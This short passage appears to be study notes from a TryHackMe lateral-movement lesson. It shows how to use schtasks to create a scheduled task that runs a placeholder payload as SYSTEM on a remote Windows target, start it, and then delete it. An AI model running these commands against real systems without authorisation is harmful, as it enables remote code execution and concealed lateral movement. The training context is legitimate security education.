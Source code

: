 **You can create and run one remotely with `schtasks`**

#### Create a task named `THMtask1`
```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1" 
```
- `/sc ONCE:` the task is intended to be run only once at the specified time and date.
- Since we will be running the task manually, the starting date `/sd` and starting time `/st` won't matter much anyway.

**Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.**

#### Delete the Scheduled task
```cmd
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```